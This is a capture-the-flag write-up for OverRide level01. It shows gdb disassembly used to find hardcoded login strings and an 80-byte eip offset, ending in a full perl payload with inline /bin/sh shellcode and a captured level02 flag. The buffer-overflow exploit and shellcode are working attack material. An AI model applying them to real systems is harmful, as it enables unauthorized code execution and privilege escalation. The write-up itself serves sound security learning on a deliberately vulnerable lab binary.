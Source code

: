 # level01

The program reads username and password from stdin and always prints incorrect password.

## Step 1. Find the right username and password
```assembly
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_name" level01
[...]
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble verify_user_pass" level01
[...]
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
```
By disassembling these two verification function, we found the address of username and password.

```
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486a8" level01
0x80486a8:	 "dat_wil"
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486b0" level01
0x80486b0:	 "admin"
```
By inspecting the address of string literal, we got the username `dat_wil` and password `admin`.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
The username is correct, but we couldn't login.

## Step 2. Calculate offset to overwrite `eip`
```assembly
level01@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level01
[...]
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
=> 0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
[...]
```
```
level01@OverRide:~$ gdb -q level01
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) break *0x08048574
Breakpoint 1 at 0x8048574
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:

Breakpoint 1, 0x08048574 in main ()
(gdb) info registers eax
eax            0xffffd6bc	-10564
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048574 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd6bc
$1 = 80
```
The username buffer is a global variable, we cannot use it to overwrite eip. We set a breakpoint before calling function `fgets`, then got offset `80` by calculating `eip - eax`.

## Step 3. Find a place to inject shellcode
```
level01@OverRide:~$ objdump -j .bss -d level01
[...]
0804a040 <a_user_name>:
```
`0x0804a040` is the address of global variable `a_user_name` which stores input username, we concatenate [shellcode](http://shell-storm.org/shellcode/files/shellcode-219.php) after the username `dat_wil` then use the address `0x0804a040 + 0x7` to access it.

## Step 4. Build payload
```
level01@OverRide:~$ perl -e 'print "dat_wil\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\n" . "A"x80 . pack("V", 0x804a047)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
level02
$ cat /home/users/$(whoami)/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
